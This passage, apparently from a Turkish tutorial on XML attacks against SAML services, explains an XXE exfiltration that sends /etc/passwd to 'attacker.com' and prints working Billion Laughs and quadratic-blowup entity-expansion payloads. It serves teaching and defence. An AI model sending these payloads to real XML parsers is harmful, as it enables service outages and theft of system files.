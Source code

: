 Son olarak, saldırgan oluşturduğu XML içeriğinde %exfil dış varlığını kullanarak hedef sisteme saldırıyı gerçekleştiriyor. Bu sayede, hedef sistemin /etc/passwd dosyasının içeriği saldırgan tarafından elde edilip "http://attacker.com" adresine gönderilebilir.

**Billion Laugh Attack (Milyar Kere Gülelim Saldırısı /evet ismi çok tuhaf/)**: bir XML işlemcisini aşırı yükleyerek hizmetin kullanılamaz hale gelmesine neden olan bir saldırı yöntemidir. Bu saldırı tipinde, saldırgan XML içeriğinde kendini tekrar eden bir desen oluşturarak işlemciyi yoğun bir şekilde çalıştırır.

Örneğin, bir SAML servisi hedef alındığını düşünelim. Saldırgan, XML içeriğini aşağıdaki gibi manipüle ederek Billion Laugh Attack saldırısını gerçekleştirmek istiyor:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY a "ha">
<!ENTITY b "&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;">
<!ENTITY c "&b;&b;&b;&b;&b;&b;&b;&b;&b;&b;">
<!ENTITY d "&c;&c;&c;&c;&c;&c;&c;&c;&c;&c;">
<!ENTITY e "&d;&d;&d;&d;&d;&d;&d;&d;&d;&d;">
<!ENTITY f "&e;&e;&e;&e;&e;&e;&e;&e;&e;&e;">
<!ENTITY g "&f;&f;&f;&f;&f;&f;&f;&f;&f;&f;">
<!ENTITY h "&g;&g;&g;&g;&g;&g;&g;&g;&g;&g;">
<!ENTITY i "&h;&h;&h;&h;&h;&h;&h;&h;&h;&h;">
<!ENTITY j "&i;&i;&i;&i;&i;&i;&i;&i;&i;&i;">
<!ENTITY k "&j;&j;&j;&j;&j;&j;&j;&j;&j;&j;">
<!ENTITY billionLaughs "&k;&k;&k;&k;&k;&k;&k;&k;&k;&k;">
]>
<root>
    <content>&billionLaughs;</content>
</root>

```

Bu XML içeriğinde, saldırgan "ha" adında bir dış varlık (a) tanımlıyor ve bu dış varlığı kullanarak kendini tekrar eden bir desen oluşturuyor. Her bir dış varlık bir öncekinden 10 kat daha fazla tekrarlanıyor. Sonuç olarak, "billionLaughs" adında bir dış varlık oluşturuluyor ve bu dış varlık içerisinde kendini tekrar eden bir desen bulunuyor.

Hedef SAML işlemcisi bu XML içeriğini işlemeye başladığında, "billionLaughs" dış varlığındaki kendini tekrar eden desen nedeniyle işlemci yoğun bir şekilde çalışmaya başlar. İşlemcinin bu yoğunluğu, kaynak tükenmesine ve hizmetin kullanılamaz hale gelmesine yol açabilir.


**Quadratic Blowup Attack**: XML işlemcilerin aşırı derecede uzun bir zinciri işlemeye çalıştığında hafızanın aşırı kullanılmasına neden olabilir. Bu durumda, XML işlemcisi yetersiz hafıza veya işlem süresi nedeniyle aşırı yüklenir ve hizmetin kullanılamaz hale gelmesine yol açabilir.

Saldırgan, XML içeriğindeki dış varlıkları kullanarak aşırı derecede uzun bir zincir oluşturur. Örneğin, aşağıdaki XML içeriği saldırıya yönelik bir örnek göstermektedir:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
    <!ENTITY a "xxxxxxxxxx">
    <!ENTITY b "&a;&a;">
    <!ENTITY c "&b;&b;">
    <!ENTITY d "&c;&c;">
    <!ENTITY e "&d;&d;">
    <!ENTITY f "&e;&e;">
    ]>
<root>&f;</root>

```
